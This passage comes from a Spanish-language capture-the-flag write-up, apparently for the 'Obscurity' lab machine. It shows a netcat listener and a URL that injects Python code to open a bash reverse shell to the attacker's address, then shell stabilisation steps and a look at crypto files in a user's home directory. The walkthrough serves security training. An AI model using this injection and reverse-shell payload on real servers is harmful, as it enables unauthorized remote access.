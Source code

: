 Vemos que recivimos un paquete por tanto nos encontramos que podemos ejecutar comandos. Por tanto para ganar acceso al sistema, nos ponemos en escucha a través del puerto 443

> sudo nc -nlvp 443

y realizamos la siguiente consulta a traves de u navegador

> http://10.10.10.168:8080/index.html'; os.system('bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"');'

Ganando así acceso al servidor

```console
www-data@obscure:/$ whoami
www-data
```

Primeramente para poder tener una tty en condiciones se realizan los siguientes pasos:

1. > www-data@obscure:/$ script /dev/null -c bash
2. Se presiona las teclas `ctrl` + `Z`
3. > stty raw -echo; fg
4. > reset xterm
5. > export SHELL=/bin/bash
6. > export TERM=xterm
7. > stty rows 47 columns 189

Dentro del directorio */home/robert* vemos que no tenemos permisos para leer el archivo user.txt, sin embargo encontramos varios archivos

> www-data@obscure:/home/robert$ ls -lha
```console
total 60K
drwxr-xr-x 7 robert robert 4.0K May  9 13:46 .
drwxr-xr-x 3 root   root   4.0K May  9 13:46 ..
lrwxrwxrwx 1 robert robert    9 Sep 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3.7K Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4.0K May  9 13:46 BetterSSH
drwx------ 2 robert robert 4.0K May  9 13:46 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
drwxr-x--- 3 robert robert 4.0K May  9 13:46 .config
drwx------ 3 robert robert 4.0K May  9 13:46 .gnupg
drwxrwxr-x 3 robert robert 4.0K May  9 13:46 .local
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2.5K Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Aug 15 04:15 user.txt
```

en particular vemos 3 archivos en los cuales tenemos un archivo en texto_plano (check.txt) un archivo cifrado (out.txt) y un cifrador en python (SuperSecureCrypt) que tiene una vulmerabilida conocida como Known Plaintext Atack

> cat check.txt
